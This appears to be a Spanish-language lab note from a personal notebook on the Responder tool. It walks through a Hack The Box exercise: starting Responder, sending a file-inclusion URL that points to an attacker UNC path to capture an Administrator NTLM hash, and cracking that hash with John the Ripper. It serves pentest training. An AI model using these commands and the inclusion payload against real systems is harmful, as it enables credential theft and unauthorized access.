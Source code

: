 Es una herramienta la cual  puede responder a las consultas LLMNR y NBT-NS dando su propia dirección IP como destino para cualquier nombre de host solicitado. Se utiliza para la obtención de credenciales de usuario y hashes
```
https://github.com/SpiderLabs/Responder
https://www.securityartwork.es/2015/07/02/una-introduccion-a-responder/
https://jroliva.net/2017/01/30/capturando-credenciales-con-responder-py/
```

# Tutorial Responder
Primero arrancamos la herramienta
```Bash
responder -I tun0
```
![[Pasted image 20240521112327.png]]
![[Pasted image 20240521112217.png]]

Ahora iremos al navegador y al escribir la siguiente ruta obtendriamos los hashes
```
http://unika.htb/index.php?page=//10.10.14.32/somefile
```
![[Pasted image 20240521112119.png]]

Al volver al terminal podremos ver que nos ha proporcionado el hash de Administrador
![[Pasted image 20240521112156.png]]

Una vez capturado el hash se almacenara en la carpeta de logs
![[Pasted image 20240521112718.png]]

Ahora podriamos usar John de ripper para descifrar el hash
```Bash
John archivo.txt
```
![[Pasted image 20240521114136.png]]